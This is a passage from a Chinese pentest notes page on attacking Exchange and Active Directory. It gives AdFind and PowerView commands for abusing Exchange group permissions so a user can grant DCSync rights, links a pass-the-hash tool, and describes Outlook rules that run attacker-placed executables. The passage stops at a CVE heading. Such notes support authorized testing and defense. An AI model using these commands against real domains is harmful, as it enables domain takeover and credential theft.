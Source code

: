 ```bash
# 查看 Organization Management 对 Exchange Windows Permissions 或 Exchange Trusted Subsystem 有 GenericAll 权限
AdFind.exe -h 192.168.123.123 -b "DC=island,DC=com" -f "|(name=Exchange Windows Permissions)(name=Exchange Trusted Subsystem)" nTSecurityDescriptor -nosacl -sddl+++ -sddlfilter A;;FC;;;"Organization Management" -recmute

# PowerView.ps1
# 通过 Organization Management 组成员将任意用户添加至 Exchange Windows Permissions 或 Exchange Trusted Subsystem
# 当然，也可以将该组成员自身添加至 Exchange Windows Permissions 或 Exchange Trusted Subsystem
# Add-DomainGroupMember 不支持域外指定域控
Add-DomainGroupMember -Identity "Exchange Windows Permissions" -Members "zhangsan" -Verbose
Get-DomainGroupMember -DomainController 192.168.123.123 -Domain island.com -Identity "Exchange Windows Permissions" -Recurse -Verbose
Remove-DomainGroupMember -Identity "Exchange Windows Permissions" -Members "zhangsan" -Verbose

# 之后就跟 Exchange 机器账户利用方式一样，zhangsan 可以给别人添加 Dcsync 权限
```

---

### PTH

- [pentest-tools-public/Pass-to-hash-EWS](https://github.com/pentest-tools-public/Pass-to-hash-EWS)

---

### relay

- [Exchange 中继](../../OS安全/实验/NTLM中继.md#exchange中继)

---

### OUTLOOK 命令执行

OUTLOOK 客户端有一个 规则与通知 的功能，通过该功能可以使 outlook 客户端在指定情况下执行指定的指令。若我们获得某用户的凭证，可以通过此功能设置 “用户收到含指定字符的邮件时 执行指定的指令比如 clac.exe”，当用户登录 outlook 客户端并访问到此邮件时，它的电脑便会执行 calc.exe。

但是，当触发动作为启动应用程序时，只能直接调用可执行程序，如启动一个 exe 程序，但无法为应用程序传递参数，想要直接上线，我们可以将 EXE 放到某共享目录下，或者直接上传到用户的机器。

具体步骤为打开规则与通知功能，然后新建功能，在接收到某条件邮件时启动指定应用程序
- 可参考 : https://tttang.com/archive/1487/#toc_outlook

实战中不太好利用,微软在 2017 年陆续修复了这些攻击面：默认禁止规则启动应用程序和运行脚本；默认禁止自定义表单执行脚本且需要将每一个自定义表单消息类注册为受信任的表单消息类；默认关闭主页功能。

---

## 漏洞

### CVE-2018-8581 任意用户伪造漏洞
- https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2018-8581

**简介**
